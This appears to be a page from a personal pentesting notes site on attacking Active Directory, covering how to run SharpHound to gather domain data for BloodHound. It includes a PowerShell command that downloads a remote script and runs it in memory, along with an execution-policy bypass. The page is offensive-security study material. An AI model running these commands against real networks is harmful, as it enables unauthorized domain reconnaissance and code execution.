

repository: gandhi-taha/security · page: attacking_active_directory_domain/good_to_know/tools/index.html · generator: mkdocs

# Tools


## Bloodhound



### Running SharpHound

Using bloodhound requires two things (1) Extract the data and (2) Analyze the data.

Extracting the data can be done with the powershell-script SharpHound.ps1

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');
```

Or you can download the module and then run:

```
powershell -Exec Bypass
import-module .\Sharphound.ps1
invoke-bloodhound
invoke-bloodhound -CollectionMethod all
```

In order to transfer the resulting zip-file from the windows computer to your linux-machine where you are running bloodhound see [Transfering Files](../../good_to_know/transfering_files).
